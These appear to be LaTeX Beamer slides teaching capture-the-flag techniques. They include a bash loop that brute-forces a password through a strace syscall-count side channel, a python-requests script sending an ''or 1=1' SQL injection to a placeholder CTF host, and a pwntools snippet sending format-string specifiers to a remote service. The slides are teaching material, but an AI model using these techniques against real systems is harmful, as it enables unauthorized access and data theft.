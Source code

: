 

\begin{frame}[fragile]
  {Bash Password Guessing}

  \begin{lstlisting}[language=bash]
for x in q w e r t y u i o p a s d f g h j k l z \
    x c v b n m Q W E R T Y U I O P A S D F G H J \
    K L Z X C V B N M 1 2 3 4 5 6 7 8 9 0 "-" "_" "?"
do
echo "= $x ="
# count sigaction syscalls
strace ./stage3.bin "Did_you_l$x$x$x$x$x$x$x$x" 2>&1 \
  | grep sigaction \
  | wc -l
done > log
# get highest count of sigactions and triggering char
cat log | grep -B 1 \
  "$(cat log | grep -v = | sort | uniq | tail -n 1)"
  \end{lstlisting}

\end{frame}



\begin{frame}[fragile]
  {Automated Browsing -- python-requests}

  \begin{lstlisting}[language=python]
import requests

URL = 'http://ctf.example.com'
s = requests.session()
r = s.post(URL + '/login',
           data={'user': 'fuzzy', 'pass': '1234'})

# GET http://ctf.example.com/vuln?x='or%201=1--x
resp = s.get(URL + '/vuln',
             params={'x': '\'or 1=1 --x'})
# session cookie automagically used here

print resp.text
# flag{some_flag_of_some_service}
  \end{lstlisting}
\end{frame}


\begin{frame}[fragile]
  {Dirty Networking -- pwntools}

  \begin{lstlisting}[language=python]
from pwn import *

r = remote('ctf.example.com', 1337)

# line based
r.recvline()
r.sendline('HELO %s%s%s%s')
r.recvuntil('250 Hello')

data = r.recv(4)

# unpack LE uint32 from bin
i = u32(data)
log.info('received uint32 {}'.format(i))

# pack BE uint32 to bin
r.send(p32(1094795585, endian='big'))
r.recvline()
  \end{lstlisting}
\end{frame}



